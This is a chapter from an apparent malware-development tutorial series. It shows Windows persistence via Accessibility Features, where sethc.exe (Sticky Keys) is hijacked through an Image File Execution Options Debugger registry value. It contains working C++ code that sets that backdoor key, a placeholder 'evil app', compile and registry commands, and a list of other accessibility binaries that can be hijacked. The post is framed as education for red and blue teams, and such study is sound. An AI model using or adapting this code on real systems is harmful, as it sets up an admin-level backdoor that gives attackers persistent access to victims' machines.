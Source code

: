 \newpage
\subsection{78. malware development: persistence - part 12. Accessibility Features. Simple C++ example.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

This post is the result of my own research into another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Finally, pressing `Shift` key `5` times:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Note to the properties of the `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Perfect! =^..^=    

After end of experiments, for cleanup, run:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
